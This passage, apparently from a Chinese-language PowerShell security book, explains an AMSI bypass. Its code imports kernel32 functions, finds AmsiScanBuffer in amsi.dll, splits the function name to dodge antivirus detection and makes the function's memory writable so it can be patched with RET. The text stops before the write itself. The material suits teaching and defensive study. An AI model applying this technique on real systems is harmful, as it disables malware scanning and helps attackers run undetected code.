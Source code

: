 图 12.13 – 反编译后的 AmsiScanString 函数

所以，我们基本上需要做的就是首先找出当前加载的**amsi.dll**文件中**AmsiScanBuffer**函数的起始地址。

一旦我们知道了这个地址，我们可以尝试操作内存，使得它不会跳转到实际的**AmsiScanBuffer**函数，而是跳过它。当我们在内存/汇编级别进行操作时，有一个技巧可以帮助我们实现这一目标。**RET**指令表示子程序的结束并返回到最初调用它的代码。所以，如果我们用**RET**指令覆盖**AmsiScanBuffer**子程序的前几个字节，这个函数就会被终止而不扫描任何内容。

一旦我们完成这一步，我们就可以在当前会话中执行所有想要的 PowerShell 代码，而不会被检查。但是，类似地，如果攻击者能够编辑系统中进程的任意内存，你可能会面临更大的问题。

让我们看看如何在 PowerShell 中实现这一点。**kernel32.dll**文件提供了使用 PowerShell 访问内存的函数，特别是**GetModuleHandle**、**GetProcAddress**和**VirtualProtect**函数。因此，让我们将这些函数导入到当前的 PowerShell 会话中：

```
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
public static class Kernel32
{
    [DllImport("kernel32", SetLastError=true, CharSet = CharSet.Ansi)]
        public static extern IntPtr GetModuleHandle(
            [MarshalAs(UnmanagedType.LPStr)]string lpFileName);
    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
        public static extern IntPtr GetProcAddress(
            IntPtr hModule,
            string procName);
    [DllImport("kernel32", CharSet=CharSet.Ansi, ExactSpelling=true, SetLastError=true)]
        public static extern IntPtr VirtualProtect(
            IntPtr lpAddress,
            UIntPtr dwSize,
            uint flNewProtect,
            out uint lpflOldProtect);
}
"@
```

使用**Kernel32**中的**GetModuleHandle**函数，我们将获取加载到当前进程中的**amsi.dll**文件的句柄。句柄是模块的基址，因此通过这一步，我们将找出模块在内存中的起始位置：

```
$AmsiHandle = [Kernel32]::GetModuleHandle("amsi.dll")
```

许多 AV 产品将检测到试图篡改**AmsiScanBuffer**函数的脚本。因此，为了避免被检测到，我们需要将函数名拆分为两个命令：

```
$FuncName = "AmsiScan"
$FuncName += "Buffer"
```

一旦完成此操作，我们可以检索**AmsiScanBuffer**的进程地址，以便稍后尝试覆盖它：

```
$FuncPtr = [Kernel32]::GetProcAddress($AmsiHandle, $FuncName)
```

下一步，我们需要取消保护要覆盖的内存区域：

```
$OldProtection = 0
[Kernel32]::VirtualProtect($FuncPtr, [uint32]1, 0x40, [ref]$OldProtection)
```
